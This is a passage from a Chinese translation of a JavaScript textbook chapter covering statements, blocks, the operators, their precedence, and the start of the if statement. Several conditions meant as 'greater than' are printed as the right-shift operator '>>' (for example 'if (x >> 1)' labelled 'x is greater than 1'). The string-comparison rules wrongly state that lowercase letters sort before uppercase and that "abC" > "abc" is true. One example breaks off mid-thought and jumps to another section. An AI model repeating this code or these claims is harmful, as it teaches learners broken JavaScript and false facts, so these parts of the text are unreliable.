当然，如果你希望在一行中包含两个语句，则必须包含一个分号来分隔它们，如下所示：

```
x = x + 1; y = y - 1;
```

这个特性称为*隐式分号插入*。其初衷是好的：让程序员不用再记得用分号来结束简单语句。然而，实际情况是，依赖这个特性是一种可疑的做法。它可能以多种方式给你带来麻烦。例如，上面的例子，

```
x = x + 1

y = y - 1
```

没有问题。但如果你写成

```
x = x + 1 y = y - 1
```

就会抛出错误。此外，如果你将一个语句拆分成多行，也可能导致问题。经典的例子是**return**语句。由于**return**的参数是可选的，将**return**和其参数放在不同的行上会导致**return**不带参数就执行。例如，

```
return

x
```

被解释为

```
return;

x;
```

而不是可能想要的效果：

```
return x;
```

因此，以及其他诸如代码可读性等原因，通过换行来结束语句并依赖隐式分号插入不仅是糟糕的编程风格，更是个坏主意，应当避免。

#### 代码块

花括号（{ }）用于将一系列连续的语句组合在一起。这样做会创建一个大的语句，所以用花括号括起来的语句块可以在JavaScript中任何可以使用单个语句的地方使用。例如，**if**条件语句需要一条语句作为其主体：

```
if (some condition)

    do something;
```

由于代码块被视为一条语句，你也可以写成

```
if (*some condition*)

{

  *do something;*

  *do something else;*

  ...
}
```

正如我们所说，标记之间的空白并不重要，所以花括号相对于相关语句的放置位置仅仅是风格问题。虽然正确对齐代码块确实可以提高代码可读性，但以下两种写法

```
if ( x >> 10) {

  *statements to execute*

}
```

和

```
if (x >> 10)

 {

  *statements to execute*

 }
```

之间的细微差别实际上更多是个人偏好的问题而非其他。我们在本书中选择了一种形式来使用，但这是有些随意的，读者在输入代码时当然可以自由修改示例以符合自己喜爱的格式风格。

同样，通常（但非必须）会对代码块中的语句进行缩进以提高可读性：

```
if (x >> 10)

{

  // indented two spaces

  if (y >> 20)

  {

    // indented four spaces

    z = 5;

  }

}
```

对嵌套代码块进行一致数量的空格缩进，可以给读者一个视觉提示，表明缩进的代码属于同一组。

语句，无论其分组方式或风格如何，通常会修改数据。我们说它们对数据*操作*，而语言中这样做的部分称为*运算符*。

### 运算符

JavaScript支持多种运算符。其中一些，如算术和比较运算符，即使对编程新手来说也很容易理解。另一些，如位与（&）、递增（++）和一些条件（? :）运算符，对于之前没有编程经验的人来说可能不太明显。幸运的是，对于各级读者来说，JavaScript很少支持该语言独有的运算符，而且该语言在提供的运算符种类及其功能上都与C、C++和Java非常相似。

#### 赋值运算符

可能最基本的运算符就是赋值运算符（=），它用于将值赋给变量。通常这个运算符用于将变量设置为字面量值，例如：

```
var bigPlanetName = "Jupiter";

var distanceFromSun = 483600000;

var visited = true;
```

一般来说，赋值运算符用于将值赋给单个变量，但也可以通过=运算符将多个赋值串联起来一次性完成多个赋值。例如，语句

```
var x = y = z = 7;
```

将三个变量都设置为**7**。

赋值还可以用于将变量设置为表达式的值。例如，这段脚本片段演示了如何将变量设置为两个字面量值的和，以及字面量和变量的组合：

```
var x = 12 + 5;    // x set to 17

var a, b = 3;       // a declared but not defined, b set to 3

a = b + 2;          // a now contains 5
```

#### 算术运算符

JavaScript支持读者应该熟悉的所有基本算术运算符，包括加法（+）、减法（−）、乘法（*）、除法（/）和取模（%，也称为余数运算符）。表4-1详细列出了所有这些运算符，并给出了每个运算符的示例。

**表 4-1：基本算术运算符**

| 运算符 | 含义 | 示例 | 结果 |
|----------|---------|---------|--------|
| + | 加法 | var x = 5, y = 7; var sum; sum = x+y; | 变量 sum 包含 12。 |
| − | 减法 | var x = 5, y = 7; var diff1, diff2; diff1 = x−y; diff2 = y−x; | 变量 diff1 包含 −2，变量 diff2 包含 2。 |
| * | 乘法 | var x = 8, y = 4; var product; product = x*y; | 变量 product 包含 32。 |
| / | 除法 | var x = 36, y = 9, z = 5; var div1, div2; div1 = x / y; div2 = x / z; | 变量 div1 包含 4，变量 div2 包含 7.2。 |
| % | 取模（余数） | var x = 24, y = 5, z = 6; var mod1, mod2; mod1 = x%y; mod2 = x%z; | 变量 mod1 包含 4，变量 mod2 包含 0。 |

注意 *JavaScript本身除了这里讨论的基本数学运算外，并不直接支持其他数学运算，但通过各种**Math**对象的方法，足以满足甚至是最先进的数学计算需求。第7章中标题为"Math"的章节概述了这些特性。**Math**对象的完整语法也可以在附录B中找到。*

注意 *回顾第3章，数值可以取到特殊值如**Infinity**，这是由于其变得过大或过小无法表示而导致的结果，或者**NaN**，这是**undefined**操作的结果。不幸的是，某些JavaScript实现在处理这些值时存在缺陷。我们发现，在处理极端范围的数值时，可能会抛出异常甚至偶尔导致支持JavaScript的浏览器崩溃。读者应注意，JavaScript可能不是进行严肃数值计算的合适语言。*

##### 使用 + 进行字符串拼接

当对字符串而非数字进行运算时，加法运算符（+）表现出不同的行为。在这种角色下，+运算符执行字符串拼接。也就是说，它将操作数"缝合"成一个单独的字符串。以下代码，

document.write("JavaScript is " + "great.");

将字符串"JavaScript is great"输出到文档中。

当然，你不仅限于将两个字符串变量拼接在一起。你可以使用这个运算符拼接任意数量的字符串或字面量。例如：

var bookTitle = "The Time Machine";

var author= "H.G. Wells";

var goodBook = bookTitle + " by " + author;

执行后，变量*goodBook*包含字符串"The Time Machine by H.G. Wells."。

+运算符对数字和字符串的不同操作方式，产生了JavaScript中一个经常让初学者困惑的细微差别。这个细微差别是当在表达式中使用+时，一个操作数是字符串而另一个不是时会发生什么。例如：

var x = "Mixed types" + 10;

规则是，如果至少有一个操作数是字符串，解释器就会始终将+运算符视为字符串拼接。所以上述代码片段的结果是将字符串"Mixed types10"赋值给x。为了将数字10转换为字符串，进行了自动类型转换（有关类型转换的更多信息，请参见第3章）。

+运算符还有一个进一步的问题。由于表达式中的加法和拼接是从左到右进行求值的，任何前面出现的+两端如果是两个数字操作数（或可以自动转换为数字的类型），将被视为加法。例如，

var w = 5;

var x = 10;


##### 取反

`-` 符号除了用于减法，另一个用途是对值进行取反。与基础数学一样，在值前面放置减号会使正值变为负值，负值变为正值。在这种形式下，它只作用于单个值（或操作数），因此被称为*一元运算符*。一元取反运算符的基本用法很简单，如以下示例所示：

```javascript
var x = -5;
x = -x;
// x 现在等于 5
```

#### 位运算符

JavaScript 支持全套位运算符，用于操作位串（实现为整数的二进制表示）。JavaScript 在执行位运算前，会将数值数据转换为 32 位整数。然后，该运算符会逐位应用于此二进制表示。

例如，如果我们对 3 和 5 进行按位与（AND）运算，首先会将数字转换为位串：3 为 00000011，5 为 00000101（我们省略了前面的 24 个 0）。然后计算每一位的与结果，其中 1 代表 **true**，0 代表 **false**。位运算的与（AND）、或（OR）和异或（XOR）真值表如表 4-2 所示。

表 4-2：位运算的真值表

| 第一个操作数的位 | 第二个操作数的位 | AND 结果 | OR 结果 | XOR 结果 |
| :--- | :--- | :--- | :--- | :--- |
| 0 | 0 | 0 | 0 | 0 |
| 0 | 1 | 0 | 1 | 1 |
| 1 | 0 | 0 | 1 | 1 |
| 1 | 1 | 1 | 1 | 0 |

因此，根据表 4-2 中指定的结果，如果我们将示例中的两个位串进行与运算，会得到此处显示的值：

```
    00000011
&   00000101
    --------
    00000001
```

此位串的十进制值为 1。如果你尝试

```javascript
alert(5 & 3);
```

你将看到相应的结果。

表 4-3 显示了 JavaScript 支持的位运算符及其用法示例。

表 4-3：JavaScript 的位运算符

| 运算符 | 描述 | 示例 | 中间步骤 | 结果 |
| :--- | :--- | :--- | :--- | :--- |
| & | 按位与 | 3 & 5 | 00000011 & 00000101 = 00000001 | 1 |
| \| | 按位或 | 3 \| 5 | 00000011 \| 00000101 = 00000111 | 7 |
| ^ | 按位异或（互斥或） | 3 ^ 5 | 00000011 ^ 00000101 = 00000110 | 6 |
| ~ | 按位非 | ~3 | 翻转一个数字中的所有位，包括第一位（符号位），因此 ~3, 00000011 = 11111100，即 −4 | −4 |

按位非运算符（~）可能会有点令人困惑。与其他位运算符一样，~ 首先将其操作数转换为 32 位二进制数。接下来，它翻转位串，将所有 0 变为 1，所有 1 变为 0。如果你不熟悉负数的二进制表示，其十进制结果可能会有些令人困惑。例如，~3 返回的值是 −4，而 ~(−3) 返回的值是 2。手动计算结果的一种简单方法是翻转所有位，然后将结果加 1。这种表示负数的方式是*补码*表示法，也是大多数计算机表示负数的方式。

**注意** 可以将 JavaScript 支持的任何数值表示与位运算符一起使用。例如，给定十六进制值 0xFF 等于 255，执行按位非（~0xFF）运算的结果是 −256。

##### 位移运算符

我们目前介绍的位运算符根据位逻辑规则修改数字二进制表示的位。还有另一类位运算符，它们操作 32 位整数的二进制表示，但用于移动（*移位*）位，而不是设置它们。

位移运算符接受两个操作数。第一个是要移位的数字，第二个指定第一个操作数中所有位要移动的位数。移位操作的方向由所用运算符控制，`<<` 用于左移，`>>` 用于右移。例如，给定左移运算 `4 << 3`，数字 4 的各位（00000100）将向左移动三位。移出左侧的任何数字都将被丢弃，右侧的数字将用零替换。因此，结果是 00100000，等于 32。

支持的位移运算符如表 4-4 所示。右移 `>>` 和 `>>>` 之间的区别很大：第一个运算符通过将最左边的位复制到右侧来保留位串中的符号，而第二个使用零填充，不保留符号。对于非负数，零填充右移（`>>>`）和符号扩展右移（`>>`）产生相同的结果。

表 4-4：位移运算符

| 运算符 | 描述 | 示例 | 中间步骤 | 结果 |
| --- | --- | --- | --- | --- |
| << | 左移 | 4 << 3 | 00000100 向左移动三位并用零填充，得到 00100000。 | 32 |
| >> | 带符号扩展的右移 | -9 >> 2 | 11110111 向右移动两位并用符号位填充左侧，得到 11111101。 | -3 |
| >>> | 带零填充的右移 | 32 >>> 3 | 00100000 向右移动三位并用 0 填充左侧，得到 00000100。 | 4 |

考虑到 JavaScript 在 Web 浏览器中使用的高级性质，位运算符可能显得有些不合时宜。然而，请记住 JavaScript 的核心特性基于 ECMAScript，而 ECMAScript 是许多语言的基础，在这些语言中，底层位操作可能很常见。但即使在 Web 上，这些运算符仍然可能有用。例如，你可能会发现用它们从 CSS 或 XHTML 颜色值中提取红色、绿色或蓝色值很有帮助。你可能还会看到它们与**事件**对象的高级功能一起使用，如第 11 章所述。它们并不常见，但它们是语言的一部分。

##### 结合算术和位运算的赋值

与许多语言一样，JavaScript 提供了将算术或位运算与赋值相结合的运算符。表 4-5 总结了这些运算符。这些简写形式让你可以简洁地表达常见语句，但除此之外与展开形式等效。

表 4-5：算术或位运算的简写赋值

| 简写赋值 | 展开含义 | 示例 |
| --- | --- | --- |
| x += y | x = x + y | var x = 5; x += 7; // x 现在为 12 |
| x -= y | x = x – y | var x = 5; x -= 7; // x 现在为 –2 |
| x *= y | x = x * y | var x = 5; x *= 7; // x 现在为 35 |
| x /= y | x = x / y | var x = 5; x /= 2; // x 现在为 2.5 |
| x %= y | x = x % y | var x = 5; x %= 4; // x 现在为 1 |
| x &= y | x = x & y | var x = 5; x &= 2; // x 现在为 0 |
| x \|= y | x = x \| y | var x = 5; x \|= 2; // x 现在为 7 |
| x ^= y | x = x ^ y | var x = 5; x ^= 3; // x 现在为 6 |
| x <<= y | x = x << y | var x = 5; x <<= 2; // x 现在为 20 |
| x >>= y | x = x >> y | var x = -5; x >>= 2; // x 现在为 –2 |
| x >>>= y | x = x >>> y | var x = 5; x >>>= 2; // x 现在为 1 |

下一节描述了一种比此处介绍的运算符更简洁的赋值形式，用于另一个非常常见的任务：加一或减一。

#### 递增和递减

`++` 运算符用于*递增*——简单地说，就是给操作数加 1。例如，

```javascript
var x = 3;
```


 x++;

此时*x*的值被设为 4。当然，你也可以将前面示例中的递增部分写成

x=x+1;

与 ++ 运算符类似的是 -- 运算符，用于*递减*（减去 1）其操作数。所以，

var x=3;

x--;

变量*x*的值变为 2。当然，这条语句也可以用“长”形式写成：

x=x-1;

虽然对于编程新手来说，给变量加 1 或减 1 可能看起来不太有用，但这些运算符非常重要，是循环结构的核心，本章后面将讨论循环结构。

##### 后置和前置递增/递减

递增（++）和递减（--）运算符的一个微妙之处在于运算符相对于操作数的位置。当递增运算符出现在操作数的左侧时，称为*前置递增*；如果出现在右侧，则是*后置递增*。运算符位置的重要性最好通过一个例子来说明。考虑以下脚本：

var x=3;

alert(x++);

你会看到



尽管在**alert()**语句执行后，*x*的值将是 4。对比以下脚本

var x=3;

alert(++x);

结果更符合预期：



当然，最终变量*x*的值将是 4。这里的关键是，操作数在表达式中所取的值取决于运算符是前置递增还是后置递增。前置递增在使用操作数的*之前*将其值加 1。后置递增在使用操作数的*之后*将其值加 1。前置递减和后置递减的工作方式相同。

**注意** *不能同时组合使用前置和后置递增/递减。例如，++x++会导致错误。还应避免在单个表达式中对同一变量多次使用前置或后置递增/递减。这样做可能导致不可预测的行为。*

#### 比较运算符

比较表达式的计算结果是一个布尔值，表示其比较结果为**true**还是**false**。JavaScript 的大多数比较运算符对于学过基础数学或其他编程语言的人来说应该都很熟悉。这些运算符总结在[表 4-6](#)中。

表 4-6：比较运算符

| 运算符 | 含义 | 示例 | 计算结果 |
| :--- | :--- | :--- | :--- |
| < | 小于 | 4 < 8 | **true** |
| <= | 小于或等于 | 6 <= 5 | **false** |
| > | 大于 | 4 > 3 | **true** |
| >= | 大于或等于 | 5 >= 5 | **true** |
| != | 不等于 | 6 != 5 | **true** |
| == | 等于 | 6 == 5 | **false** |
| === | 等于（且类型相同） | 5 === '5' | **false** |
| !== | 不等于（或类型不同） | 5 !== '5' | **true** |

其中一些运算符值得进一步讨论，尤其是相等运算符。一个常见的错误是使用单个等号（=）——它表示赋值——而实际上想要的是双等号（==），它表示相等性比较。以下示例展示了这个问题在实际中的表现。

```
var x = 1;

var y = 5;

if (x = y)

  alert("Values are the same");

else

  alert("Values are different");
```

在这种情况下，无论变量的值是什么，**if**语句始终会计算为**true**：



这是因为赋值语句在表达式中的值是被赋的值（在本例中是 5，当自动转换为布尔值时为**true**；零为**false**，非零为**true**）。

更有趣的是那些看起来不同但比较结果相等的值的情况。例如，

`alert(5 == "5");`

由于 JavaScript 的自动类型转换，返回**true**值：



严格相等通过使用恒等运算符（===）来处理，如下所示。如果操作数相等*且*类型相同（即不进行类型转换），该运算符返回**true**。脚本

`alert(5 === "5");`

如预期显示**false**：



> **注意** 比较运算符 === 和 !== 在 Netscape 3 及更早版本的浏览器中不可用，但在 JavaScript 1.3 及更高版本中可用。

##### 字符串比较

比较运算符对数字的含义很清楚，但对字符串呢？例如，以下表达式是否为**true**？

`"thomas" > "fritz"`

当你比较字符串时，JavaScript 根据字符串的*字典序*来评估比较。*字典序*本质上是字母顺序，附带一些额外规则来处理大小写字符以及不同长度的字符串。

以下一般规则适用：

- 小写字符小于大写字符。
- 较短的字符串小于较长的字符串。
- 字母表中较早出现的字母小于较晚出现的字母。
- ASCII 或 Unicode 值较小的字符小于值较大的字符。

解释器按字符逐个检查字符串。一旦上述任一规则适用于所讨论的字符串（例如，两个字符不同），表达式就会相应地进行评估。

以下比较都为**true**：

`"b" > "a"`

`"thomas" > "fritz"`

`"aaaa" > "a"`

`"abC" > "abc"`

虽然这种排序乍一看可能令人困惑，但它在大多数编程语言中是相当标准和一致的。

#### 逻辑运算符

如前所述，上一节描述的比较运算符的计算结果为布尔值。逻辑运算符 &&（AND）、||（OR）和 !（NOT）可用于将这些值组合在一起，以实现更复杂的逻辑。表 4-7 展示了每个逻辑运算符的描述和示例。

##### 表 4-7：逻辑运算符

| 运算符 | 描述 | 示例 |
| --- | --- | --- |
| && | 如果两个操作数都计算为**true**，则返回**true**；否则返回**false**。 | var x=true, y=false;<br>alert(x && y);<br>// 显示 false |
| \|\| | 如果任一操作数为**true**，则返回**true**。如果两者都为**false**，则返回**false**。 | var x=true, y=false;<br>alert(x \|\| y);<br>// 显示 true |
| ! | 如果其单个操作数为**true**，则返回**false**；否则返回**true**。 | var x=true;<br>alert(!x);<br>// 显示 false |

逻辑运算符最常见的用途是使用**if**语句控制脚本执行流程（请参阅本章后面“**if**语句”部分，了解逻辑运算符在**if**语句中的使用）。接下来讨论的条件运算符（**?:**）类似于**if**语句，可以用在**if**语句无法使用的地方。

#### ?: 运算符

**?:**运算符用于创建快速条件分支。该运算符的基本语法是

```
(expression) ? if-true-statement : if-false-statement;
```

其中*expression*是任何最终会计算为**true**或**false**的表达式。如果*expression*计算为**true**，则评估*if-true-statement*。否则，执行*if-false-statement*。在这个例子中，

```
(x > 5) ? alert("x is greater than 5") : alert("x is less than 5");
```

将根据变量*x*的值显示警告对话框。从上下文来看，如果条件表达式计算为**true**，则显示第一个表示值大于 5 的语句；如果为**false**，则显示第二个表示相反的语句。

乍一看，**?:**运算符似乎只是**if**语句的简写形式。前面的示例可以重写为更易读但不够紧凑的**if**风格语法，如下所示：

```
if (x > 5)

  alert("x is greater than 5");

  else

  alert("x is less than 5");
```

事实上，许多 JavaScript 程序员使用**?:**作为更紧凑的**if**。例如：

 ```
var rolloverAllowed;

(document.images) ? rolloverAllowed = true : rolloverAllowed = false;
```

这段紧凑的脚本根据 **Images[]** 对象是否存在，将变量 *rolloverAllowed* 设置为 **true** 或 **false**。为了可读性，你可能仍然更倾向于使用 **if** 语句，但此运算符的简洁性确实使其在需要执行大量简单条件检查的大型跨浏览器脚本中非常有用。

**?:** 和 **if** 之间的一个主要区别是，**?:** 运算符只允许 **true** 和 **false** 条件对应一条语句。因此，

```
( x > 5 ) ? alert("Watch out"); alert("This doesn't work")  :
```

```
alert("Error!");
```

将不起作用。事实上，由于 **?:** 运算符用于构成单条语句，因此在表达式中的任何位置包含分号 (;) 都会终止该语句，并可能破坏它，如下所示：

```
( x > 5 ) ? alert("Watch out for the semicolon! "); : alert("The last part
```

```
will throw an error");
```

使用 { } 字符定义的语句块也不会改善这种情况。代码

```
( x > 5 ) ? {alert("using blocks"); alert("doesn't work");} :
```

```
{alert("error! "); alert("error!");};
```

也会抛出错误。

我们已经提到的另一个主要区别是，**?:** 允许在表达式中使用，而 **if** 则不允许。例如：

```
var price = 15.00;

var total = price * ( (state == "CA") ? 1.0725 : 1.06 );   // add tax
```

等效的 **if** 语句将需要几行来编写。

#### 逗号运算符

逗号运算符 (,) 允许多个表达式串联在一起并作为一个表达式处理。用逗号串联在一起的表达式求值为最右边表达式的值。例如，在这个赋值中，最终赋值将作为副作用返回值 56；因此，变量 *a* 被设置为该值：

```
var a,b,c,d;

a = (b=5, c=7, d=56);

document.write('a = '+a+' b = '+b+' c = '+c+' d = ' + d);
```



逗号运算符在 JavaScript 中很少在变量声明之外使用，偶尔会在复杂的循环表达式中使用，如下所示：

```
for (count1=1, count2=4; (count1 + count2) < 10; count1++, count2++)
    document.write("Count1= " + count1 + " Count2 = " + count2 + "<br>");
```

然而，实际上并不建议使用逗号运算符。

注意，逗号也用于分隔函数调用中的参数（参见第 5 章）。这种用法与逗号运算符无关。

#### void 运算符

**void** 运算符指定一个要被求值但不返回值的表达式。例如，取前面的逗号运算符示例并将其 void 掉：

```
var a,b,c,d;
a = void (b=5, c=7, d=56);
document.write('a = '+a+' b = '+b+' c = '+c+' d = ' + d);
```

在这种情况下，*a* 的值将是 **undefined**，如下所示：



**void** 运算符最常见的用途是在将 **javascript:** 伪 URL 与 HTML href 属性结合使用时。一些浏览器，特别是 Netscape 的早期版本，在链接中使用脚本时存在问题。避免这些问题并强制链接点击在脚本开启时不做任何事情的唯一方法是使用 **void**，如下所示：

```
<a href="javascript:void (alert('hi!'))">Click me!</a>
```

由于现代浏览器正确实现了伪 URL，这种做法已经不再使用。

#### typeof

**typeof** 运算符返回一个表示其操作数数据类型的字符串。这里的脚本片段展示了其基本用法：

```
a = 3;
name = "Howard";
alert(typeof a);     // displays number
alert(typeof name); // displays string
```

表 4-8 显示了 **typeof** 根据其呈现的值类型返回的值。

##### 表 4-8：typeof 运算符的返回值

| 类型 | typeof 返回的字符串 |
|------|---------------------------|
| 布尔值 | "boolean" |
| 数字 | "number" |
| 字符串 | "string" |
| 对象 | "object" |
| 函数 | "function" |
| 未定义 | "undefined" |
| 空值 | "object" |

在进入语句之前要讨论的最后一组运算是各种对象运算符。

#### 对象运算符

本节提供了对各种 JavaScript 对象运算符的非常简要的概述。更完整的讨论可以在第 6 章找到。现在，请回顾第 3 章，对象是一种复合数据类型，包含任意数量的属性和方法。每个属性都有一个名称和一个值，并使用句点 (.) 运算符访问它们；例如，

```
document.lastModified
```

引用 **document** 对象的 **lastModified** 属性，它包含 HTML 文档上次修改的日期。

对象属性也可以使用数组方括号运算符 ([ ]) 来访问，其中包含属性名称的字符串。例如，

```
document["lastModified"]
```

与

```
document.lastModified
```

相同。

方括号更常见的用途是数组索引运算符 ([ ])，用于访问数组的元素。例如，这里我们定义一个名为 *myArray* 的数组：

```
var myArray = [2, 4, 8, 10];
```

要从第一个位置 (0) 开始显示数组的各个元素，我们将使用一系列这样的语句：

```
alert(myArray[0]);

alert(myArray[1]);

alert(myArray[2]);

alert(myArray[3]);
```

在前面的示例中，我们使用数组字面量创建了一个 **Array** 对象。我们也可以使用 **new** 运算符来做到这一点。例如：

```
var myArray = new Array(2, 4, 8, 10);
```

**new** 运算符用于创建对象。它既可以用于创建用户定义的对象，也可以用于创建内置对象的实例。以下脚本创建了一个新的 **Date** 对象实例，并将其放入变量 *today* 中。

```
var today = new Date();

alert(today);
```

结果如下所示：



大多数允许你使用 **new** 创建对象的语言也允许你使用 **delete** 来销毁对象。对于 JavaScript 来说，情况并非完全如此。要销毁对象，你需要将其设置为 **null**。例如，要销毁前面示例中的对象，你会写
today = null;

在 JavaScript 中，**delete** 运算符用于从对象中删除属性以及从数组中删除元素。以下脚本说明了它用于后一种目的的用法：

```
var myArray = ['1', '3', '78', '1767'];

document.write("myArray before delete = " + myArray);

document.write("<br />");

delete myArray[2];

// deletes third item since index starts at 0

document.write("myArray after delete = " + myArray);
```

请注意，第三项 78 已从数组中移除：



最后一个与对象相关的运算符是括号运算符。此运算符用于调用对象的方法，就像调用函数一样。例如，我们已经见过 **Document** 对象的 **write()** 方法：
document.write("Hello from JavaScript");

在这种情况下，我们将一个参数（字符串 "Hello from JavaScript"）传递给 **write** 方法，以便将其打印到 HTML 文档。通常，我们可以如下调用任意对象方法：

`objectname.methodname(optional parameters)`

#### 运算符优先级和结合性

运算符具有预定义的优先级顺序，即在表达式中求值的顺序。这一点在算术运算符中尤为明显，类似于代数中求值的方程式，其中乘法和除法比加法和减法具有更高的优先级。例如，

```
alert(2 + 3 * 2);
```

的结果将是 8，因为乘法在加法之前执行。我们看到乘法的优先级高于加法。使用括号，我们可以对表达式进行分组并强制按照我们选择的顺序进行求值。括号内的表达式首先求值。例如，

```
alert((2 + 3) * 2);
```

将显示 10。

当然，表达式求值也受运算符结合性的影响。*结合性*本质上意味着包含运算符的表达式被求值的“方向”。例如，考虑加法和字符串连接操作的以下组合：

```
alert(5 + 6 + "Hello");
```

结果将是字符串 "11Hello" 而不是 "56Hello"。即使两个 **+** 实例似乎具有相同的优先级，但 **+** 运算符是“左结合”的，这意味着它从左到右求值，因此首先执行数值加法。相反，在此示例中，

```
var y;
```

```
var x = y = 10 * 10;
```

首先执行乘法，因为赋值 (**=**) 是“右结合的”。结果是计算出 100，然后赋值给 *y*，最后才赋值给 *x*。

JavaScript 中各种运算符的优先级和结合性在表 4-9 中给出。请注意，按照计算机科学的传统，优先级用数字表示，*数字越小*表示*优先级越高*。

#### **表 4-9：JavaScript 运算符的优先级和结合性**

| 优先级 | 结合性 | 运算符 | 运算符含义 |
|------------|---------------|----------|------------------|
| 最高：0 | 从左到右 | . | 对象属性访问 |
| 0 | 从左到右 | [ ] | 数组访问 |
| 0 | 从左到右 | ( ) | 分组或函数或方法调用 |
| 1 | 从右到左 | ++ | 递增 |
| 1 | 从右到左 | -- | 递减 |
| 1 | 从右到左 | - | 取负 |
| 1 | 从右到左 | ~ | 按位非 |
| 1 | 从右到左 | ! | 逻辑非 |
| 1 | 从右到左 | delete | 删除对象属性或数组值 |
| 1 | 从右到左 | new | 创建对象 |
| 1 | 从右到左 | typeof | 确定类型 |
| 1 | 从右到左 | void | 抑制表达式求值 |
| 2 | 从左到右 | *, /, % | 乘法、除法、取模 |
| 3 | 从左到右 | +, - | 加法、减法 |
| 3 | 从左到右 | + | 字符串连接 |


| 优先级 | 结合性 | 操作符 | 操作符含义 |
| :--- | :--- | :--- | :--- |
| 4 | 从左到右 | >> | 带符号的按位右移 |
| 4 | 从左到右 | >>> | 零填充的按位右移 |
| 4 | 从左到右 | << | 按位左移 |
| 5 | 从左到右 | >, >= | 大于，大于或等于 |
| 5 | 从左到右 | <, <= | 小于，小于或等于 |
| 6 | 从左到右 | == | 相等 |
| 6 | 从左到右 | != | 不相等 |
| 6 | 从左到右 | === | 带类型检查的相等 (严格相等) |
| 6 | 从左到右 | !== | 带类型检查的不相等 (严格不相等) |
| 7 | 从左到右 | & | 按位与 |
| 8 | 从左到右 | ^ | 按位异或 |
| 9 | 从左到右 | \| | 按位或 |
| 10 | 从左到右 | && | 逻辑与 |
| 11 | 从左到右 | \|\| | 逻辑或 |
| 12 | 从右到左 | ? : | 条件 |
| 13 | 从右到左 | = | 赋值 |
| 13 | 从右到左 | \*=, /=, %=, +=, -=, <<=, >>=, >>>= , &=, ^=, \|= | 与前面的操作符结合的赋值 |
| 最低: 14 | 从左到右 | , | 多重求值 |

基于对操作符优先级的讨论，你可能会假设使用括号可以强制对所有已讨论的操作符进行求值。然而，情况并非总是如此。例如，考虑后置和前置递增/递减操作符。正如我们之前所见，以下代码的结果

```
var x = 3;

alert(++x); // shows 4
```

和

```
var x = 3;

alert(x++); // shows 3
```

显示不同的值，这是由于递增操作发生在警报对话框显示时的时机不同。然而，如果你添加括号并试图强制递增始终在警报显示之前发生，如下所示，

```
var x = 3;

alert((x++)); // shows 3

alert((++x)); // shows 5
```

你将看不到任何差异。

既然我们已经涵盖了 JavaScript 中的所有各种操作符，是时候将它们组合起来创建语句了。

### 核心 JavaScript 语句

JavaScript 支持一组核心语句，这些语句对于任何在现代命令式编程语言中编程的人来说都应该很熟悉。这些包括流程控制（**if-else**、**switch**）、循环（**while**、**do-while**、**for**）和循环控制（**break** 和 **continue**）。JavaScript 还支持一些与对象相关的语句（**with**、**for-in**）。已经熟悉这些语句的读者可能想要浏览本节，只关注更晦涩的方面（特别是 **if** 语句的短路求值、不同版本 JavaScript 对 **switch** 支持的差异、无限循环问题和 Web 浏览器，以及带标签的 **break** 和 **continue** 的使用）。

### if 语句

**if** 语句是 JavaScript 基本的决策控制语句。**if** 语句的基本语法是

```
if (*expression*)
    *statement*;
```

给定的 *expression* 被求值为布尔值，如果条件为 **true**，则执行 *statement*。否则，它会继续执行下一条语句。例如，给定以下脚本片段，

```
var x = 5;

if (x >> 1)
    alert("x is greater than 1");

alert("moving on ...");
```

表达式求值为 **true**，显示消息 "x is greater than 1"，然后显示第二个警报对话框。然而，如果变量 *x* 的值为零之类的，表达式将求值为 **false**，导致跳过第一个警报并立即显示第二个。

要使用 **if** 语句执行多条语句，可以使用一个块，如下所示：

```
var x = 5;

if (x >> 1)
{
    alert("x is greater than 1.");
    alert("Yes x really is greater than 1.");
}

alert("moving on ...");
```

可以使用 **else** 语句应用额外的逻辑。当第一条语句的条件不满足时，**else** 语句中的代码将被执行：

```
if (*expression*)
    statement or block
**else**
    statement or block
```

根据此语法，我们可以将前面的示例扩展如下：

```
var x = 5;

if (x >> 1)
{
    alert("x is greater than 1.");
    alert("Yes x really is greater than 1.");
}
else
{
    alert("x is less than 1.");
    alert("This example is getting old.");
}
alert("moving on ...");
```

